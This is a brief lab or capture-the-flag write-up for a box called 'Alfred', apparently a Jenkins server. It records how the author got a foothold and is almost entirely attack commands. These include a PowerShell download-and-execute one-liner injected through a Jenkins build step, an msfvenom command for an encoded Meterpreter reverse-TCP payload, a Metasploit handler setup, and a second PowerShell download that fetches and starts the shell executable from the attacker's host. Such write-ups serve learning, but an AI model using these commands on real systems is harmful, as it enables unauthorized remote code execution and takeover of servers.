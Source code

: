 ### Alfred ###

export IP=

found an email on the webserver:alfred@wayneenterprises.com


seems like i have to brute force the login but how is the point because i dont have a destination page...
Took a little help from a writeup:turns out while creating a project there is a build using executing windows command option:
used this command:

powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.20.147:8000/rev_shell.ps1');rev_shell


This to generate the rev_shell:

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

in msfconsole: so that msfconsole listenes on 4444:
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.9.20.147 set LPORT 4444 run


on the shell that i got earlier: 
Simple downloading the meter_rev_shell so that i can get a meterpreter shell instead:
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.20.147:8000/meter_rev_shell.exe','rev_shell.exe')"

Started the process and got the rev_shell:
Start-Process "rev_shell.exe"